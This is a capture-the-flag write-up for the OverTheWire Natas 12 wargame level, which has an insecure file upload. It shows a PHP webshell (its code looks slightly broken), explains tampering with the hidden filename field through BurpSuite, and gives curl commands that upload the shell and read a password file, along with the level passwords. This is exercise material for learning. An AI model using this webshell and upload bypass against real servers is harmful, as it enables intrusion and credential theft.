

> We see that through the source code when we upload a file, the extension is kept the same but with a randomized name.



> Therefore, we can upload a `.php` file that contains the code of a webshell.

```php
<?
system($_GET('cmd'));
?>
```
> `mins.php` is the file name.

> However, the file gets stored in the server as a `.jpg` file as we see here in the source code.
> The second `input` field with name `filename`.


> Therefore, we need to change the value of this `input` field to end in `.php`.

> Since this is a form, then it uses the `POST` method.
> We can change these hidden parameter values using BurpSuite proxy.
> Uploading the php code we have above and intercepting the request.


> We see in line 21 the parameter `filename`, and we changed it to `.php` so that it executes as php.
> We see in line 25 the parameter `uploadedfile` and it is the name of the file we uploaded, which is `mins.php`.
> And in line 28 we see the file contents, which is the php webshell script.

> Sending this request, we see the response: 


> If we visit this URL, we can insert query parmaters with the `cmd` parameter name and `cat%20/etc/natas_webpass/natas13` to get the password of the next level.


> We see the response with the password:
```
natas13:lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
```

---

###### Using `curl`

> We must supply all form paramet
```bash
curl -u natas12:YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG -F "filename=anything.php" -F "uploadedfile=@./mins.php" http://natas12.natas.labs.overthewire.org/  
```
> We made the parameter `filename` have the extension `php` as required, and uploaded the `mins.php` file in the `uploadedfile` parameter.


> We see that it is uploaded to `upload/j1xrcjiztr.php`.
> Visiting that path and specifying the command to open the password file.

```bash
curl -u natas12:YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG  http://natas12.natas.labs.overthewire.org/upload/j1xrcjiztr.php?cmd=cat%20/etc/natas_webpass/natas13
```

> We get the password.

```
natas13:lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
```

---
